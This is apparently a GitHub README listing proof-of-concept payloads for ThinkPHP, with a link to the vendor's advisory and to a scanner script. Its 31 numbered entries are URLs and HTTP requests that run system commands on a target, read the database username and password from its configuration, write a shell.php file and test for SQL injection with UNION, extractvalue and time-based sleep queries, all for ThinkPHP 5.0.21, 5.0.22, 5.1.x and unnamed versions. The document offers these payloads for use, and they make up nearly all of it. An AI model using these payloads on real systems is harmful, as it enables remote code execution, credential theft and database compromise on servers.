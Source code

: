 # thinkphp-RCE-POC</br>
官方公告:https://blog.thinkphp.cn/869075</br>
POC：https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection/blob/master/ScanThinkphpRCE-POC.py</br>
请自定义POC。</br>
# thinkphp 5.0.22</br>
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username</br>
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password</br>
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5</br>
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1</br>
# thinkphp 5.0.21</br>
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5.1.*</br>
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1</br>
9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd</br>
10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E</br>
11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E</br>
12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
# 未知版本</br>
16、?s=index/\think\module/action/param1/${@phpinfo()}</br>
17、?s=index/\think\Module/Action/Param/${@phpinfo()}</br>
18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}</br>
19、index.php?s=/home/article/view_recent/name/1' </br>
    header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"</br>
20、index.php?s=/home/shopcart/getPricetotal/tag/1%27</br>
21、index.php?s=/home/shopcart/getpriceNum/id/1%27</br>
22、index.php?s=/home/user/cut/id/1%27</br>
23、index.php?s=/home/service/index/id/1%27</br>
24、index.php?s=/home/pay/chongzhi/orderid/1%27</br>
25、index.php?s=/home/pay/index/orderid/1%27</br>
26、index.php?s=/home/order/complete/id/1%27</br>
27、index.php?s=/home/order/complete/id/1%27</br>
28、index.php?s=/home/order/detail/id/1%27</br>
29、index.php?s=/home/order/cancel/id/1%27</br>
30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+</br>
31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1</br>
    Content-Disposition: form-data; name="couponid"</br>
    1') union select sleep('''+str(sleep_time)+''')#</br>
